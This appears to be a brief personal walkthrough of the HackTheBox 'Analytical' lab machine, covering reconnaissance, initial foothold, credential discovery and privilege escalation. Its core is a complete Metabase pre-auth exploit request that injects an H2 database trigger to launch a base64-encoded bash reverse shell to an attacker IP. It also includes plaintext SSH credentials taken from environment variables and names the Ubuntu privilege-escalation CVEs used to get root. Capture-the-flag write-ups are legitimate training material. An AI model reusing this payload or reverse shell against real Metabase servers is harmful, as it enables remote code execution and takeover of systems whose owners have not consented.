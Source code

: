 # Analytical -htb(Compi)

Nmap:
	22, 80

found subdomains --> data.analytics.htb

dirbuster res:
	/api/session/properties
	/

	setup-token	"249fa03d-fd94-4d5b-b94f-b4ebf3df681f"

	bash encoded reverse shell
	YmFzaCAtaSA+Ji9kZXYvdGNwLzEwLjEwLjE0LjM0LzY2NjYgMD4mMQ==

toDo :
	url encode the " == "
	use another layer of {} around the bash call


The payload 
header 

POST /api/setup/validate

{

    "token": "249fa03d-fd94-4d5b-b94f-b4ebf3df681f",
    "details":
    {
        "is_on_demand": false,
        "is_full_sync": false,
        "is_sample": false,
        "cache_ttl": null,
        "refingerprint": false,
        "auto_run_queries": true,
        "schedules":
        {},
        "details":
        {
            "db": "zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;TRACE_LEVEL_SYSTEM_OUT=1\\;CREATE TRIGGER pwnshell BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\njava.lang.Runtime.getRuntime().exec('bash -c {echo,YmFzaCAtaSA+Ji9kZXYvdGNwLzEwLjEwLjE0LjM0LzY2NjYgMD4mMQ%3D%3D}|{base64,-d}|{bash,-i}')\n$$--=x",
            "advanced-options": false,
            "ssl": true
        },
        "name": "x",
        "engine": "h2"
    }
}

----
Got shell access (foothold granted)
now SHELL ENUM:
--

found a .dockerenv : that means i am inside a docker container.
Have to breakout of it somehow.

Ran linpeas.sh

type `printenv` , it will list out enviroment variables and there u can get ssh usernam nad pass.
META_USER=metalytics
META_PASS=An4lytics_ds20223#

gg

----
PRIV ESC:
--

There was a public exploit cve danger that lead me priv esc:

Ubuntu Local Privilege Escalation (CVE-2023-2640 & CVE-2023-32629)
reddit link will point to the correct path.

GOT ROOT
